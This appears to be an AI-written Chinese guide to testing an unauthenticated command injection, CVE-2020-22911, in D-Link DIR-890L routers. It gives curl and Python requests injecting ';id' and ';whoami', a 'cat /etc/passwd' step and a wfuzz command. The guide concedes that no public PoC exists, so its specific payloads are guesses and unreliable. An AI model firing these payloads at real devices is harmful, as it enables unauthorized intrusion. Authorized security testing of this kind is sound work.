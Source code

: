 CVE-2020-22911 概述
根據公開資料，CVE-2020-22911 是一個與 D-Link DIR-890L 路由器相關的漏洞，具體描述為 命令注入漏洞（Command Injection）。該漏洞允許未經身份驗證的攻擊者通過發送特製的 HTTP 請求（通常是 POST 請求）到特定的端點（例如 /hedwig.cgi），在設備上執行任意命令，從而可能導致遠程代碼執行（RCE）。該漏洞的 CVSS 分數為 9.8（危險），因為它不需要身份驗證，且影響範圍廣泛。

受影響產品：D-Link DIR-890L（特定固件版本，需確認是否已修補）
漏洞類型：命令注入（Command Injection）
攻擊向量：遠程、未經身份驗證
公開日期：2020-11-12
參考資料：NVD

由於該漏洞的公開細節較少，且未明確提供 PoC（概念驗證）或具體的漏洞利用代碼，我將提供一個通用的命令注入漏洞測試用例框架，並假設攻擊者通過 HTTP 請求觸發漏洞。請注意，執行漏洞測試需要遵守法律和道德規範，僅在獲得明確授權的環境中進行測試（例如自家設備或滲透測試環境）。

漏洞驗證的通用方法
命令注入漏洞的驗證通常涉及以下步驟：

識別漏洞端點：找到易受攻擊的服務或接口（例如，/hedwig.cgi）。
構造惡意輸入：嘗試在輸入參數中注入系統命令（例如，whoami、ping 或 id）。
發送特製請求：使用工具（如 curl、Burp Suite 或 Python 腳本）發送包含惡意 payload 的 HTTP 請求。
觀察響應：檢查設備是否執行了注入的命令（例如，返回命令輸出或異常行為）。
記錄結果：確認漏洞是否存在，並記錄證據以便報告或修補。


測試用例框架
以下是針對 CVE-2020-22911 的命令注入漏洞驗證的通用測試用例框架。請根據實際設備的 IP 地址、端口和固件版本進行調整。
測試用例 1：使用 curl 發送惡意 HTTP 請求
目標：驗證是否可以在 /hedwig.cgi 端點注入並執行簡單命令（如 id）。
語法：
bashcurl -X POST http://<TARGET_IP>/hedwig.cgi \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d 'xml=<malicious_payload>;<injected_command>'
範例：
假設目標設備 IP 為 192.168.0.1，嘗試注入 id 命令：
bashcurl -X POST http://192.168.0.1/hedwig.cgi \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d 'xml=action=login&username=admin;id'
預期結果：

如果漏洞存在，響應可能包含 id 命令的輸出，例如：
textuid=0(root) gid=0(root)

如果未返回預期輸出，可能需要調整 payload 或檢查設備是否已修補。

注意：

實際的 payload 可能需要特定的 XML 結構或參數，具體取決於設備的 API 實現。
如果響應為 500 錯誤或無輸出，建議使用 Burp Suite 進一步分析請求。


測試用例 2：使用 Python 腳本自動化測試
目標：自動化發送多個命令注入 payload，並檢查響應。
Python 腳本範例：
pythonimport requests

# 目標設備信息
target_url = "http://192.168.0.1/hedwig.cgi"
headers = {"Content-Type": "application/x-www-form-urlencoded"}
payloads = [
    "xml=action=login&username=admin;id",
    "xml=action=login&username=admin;whoami",
    "xml=action=login&username=admin;ping -c 4 127.0.0.1"
]

# 發送請求並檢查響應
for payload in payloads:
    try:
        response = requests.post(target_url, headers=headers, data=payload, timeout=5)
        print(f"Payload: {payload}")
        print(f"Status Code: {response.status_code}")
        print(f"Response: {response.text[:200]}")  # 限制輸出長度
        print("-" * 50)
    except requests.exceptions.RequestException as e:
        print(f"Error with payload {payload}: {e}")
執行方法：

將 <TARGET_IP> 替換為目標設備的 IP 地址。
確保目標設備可通過網絡訪問。
運行腳本：python3 test_cve_2020_22911.py

預期結果：

如果漏洞存在，響應可能包含命令執行結果（如 uid=0(root) 或 ping 的輸出）。
如果響應為空或返回錯誤，則可能需要調整 payload 或確認設備是否易受攻擊。


測試用例 3：使用 Burp Suite 進行手動測試
目標：通過 Burp Suite 攔截並修改 HTTP 請求，測試命令注入。
步驟：

配置 Burp Suite 代理，攔截目標設備的 HTTP 流量。
訪問 http://<TARGET_IP>/hedwig.cgi，並發送 POST 請求。
在 Burp Suite 的 Repeater 模塊中，修改 POST 數據，添加注入命令，例如：
textxml=action=login&username=admin;id

發送請求並檢查響應是否包含命令輸出。
嘗試其他命令（如 whoami、cat /etc/passwd）以確認漏洞嚴重性。

預期結果：

成功執行命令的證據（例如，響應中包含系統用戶信息）。
如果無響應或返回錯誤，檢查是否需要特定的 XML 格式或認證。


注意事項

法律與道德：

僅在獲得明確授權的環境中進行測試（例如，個人設備或滲透測試實驗室）。
未經許可對他人設備進行漏洞測試是非法的，可能導致法律後果。


環境準備：

確保測試環境中有一台未修補的 D-Link DIR-890L 路由器（固件版本需與 CVE-2020-22911 描述匹配）。
確認設備的網絡可達性（例如，確保防火牆未阻止 HTTP 請求）。


修補建議：

檢查 D-Link 官方網站（https://support.dlink.com）是否有針對 CVE-2020-22911 的固件更新。
如果無法更新固件，建議禁用遠程管理功能並限制對設備管理接口的訪問。


局限性：

由於公開資料中缺乏 CVE-2020-22911 的具體 PoC，上述測試用例是基於命令注入漏洞的通用方法。
實際的 payload 可能需要特定的參數或格式（例如，特定的 XML 結構或字段名稱）。
如果需要更精確的測試用例，請提供設備的固件版本或公開的 PoC 鏈接。




進階測試建議
如果基本測試未成功，可嘗試以下進階方法：

逆向工程：

下載受影響的 D-Link DIR-890L 固件，提取並分析 /hedwig.cgi 的代碼，尋找命令注入點。
使用工具如 binwalk 或 Ghidra 進行固件分析。


模糊測試（Fuzzing）：

使用工具如 wfuzz 或 ffuf 對 /hedwig.cgi 的參數進行模糊測試，嘗試不同命令注入 payload。
範例命令：
bashwfuzz -c -z file,wordlist.txt --hc 404 -d "xml=FUZZ" http://192.168.0.1/hedwig.cgi
（wordlist.txt 包含可能的命令注入 payload，如 ;id、;whoami 等）


網絡流量分析：

使用 Wireshark 捕獲設備的 HTTP 流量，分析請求和響應的結構，確認是否需要特定的頭部或參數。